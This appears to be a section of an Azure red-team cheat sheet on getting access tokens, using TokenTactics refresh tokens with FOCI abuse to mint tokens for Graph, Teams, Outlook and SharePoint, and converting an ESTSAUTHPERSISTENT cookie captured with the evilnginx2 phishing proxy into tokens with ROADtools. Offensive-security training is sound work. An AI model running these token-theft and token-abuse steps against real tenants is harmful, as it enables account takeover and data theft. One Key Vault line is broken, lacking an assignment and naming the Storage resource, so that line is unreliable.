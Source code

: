 ```
$AADGraphToken = (Get-AzAccessToken -ResourceTypeName AadGraph).Token

$ARMAccessToken = (Get-AzAccessToken -ResourceTypeName Arm).Token

$StorageAccessToken = (Get-AzAccessToken -ResourceTypeName Storage).Token

$KeyVault (Get-AzAccessToken -ResourceTypeName Storage).Token
```

#### TokenTactics
- Using Refresh token, `$tokens` variable from TokenTactics

```
$GraphAccessToken = (Invoke-RefreshToMSGraphToken -domain <DOMAIN>.onmicrosoft.com -refreshToken $tokens.refresh_token).access_token

$ARMAccessToken = (Invoke-RefreshToAzureManagementToken -domain <COMPANY>.onmicrosoft.com -refreshToken $response.refresh_token).access_token
```

#### Get other access tokens
- Abuses [FOCI](#Family-of-Client-IDs-(FOCI)-FRT-Abuse)
```
Get-Command *Invoke-RefreshTo*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

### Stealing access tokens
- [Link to Post-Exploitation](/cloud/azure/post-exploitation.md#Stealing-tokens)

### From EST cookies to Access and Refresh tokens
### RoadTx
#### Get Access + Refresh Tokens
- https://github.com/dirkjanm/ROADtools
- Copy the `ESTSAUTHPERSISTENT` cookie from evilnginx2!
- Use the `--resource` parameter to choose which azure resource
	- `msgraph`    - https://graph.microsoft.com/
	- `aadgraph`   - https://graph.windows.net/
	- `azurerm`    - https://management.core.windows.net/
- Use the `--client` parameter to choose which client
	- `azps`, `azcli`, `msteams`, `edge`
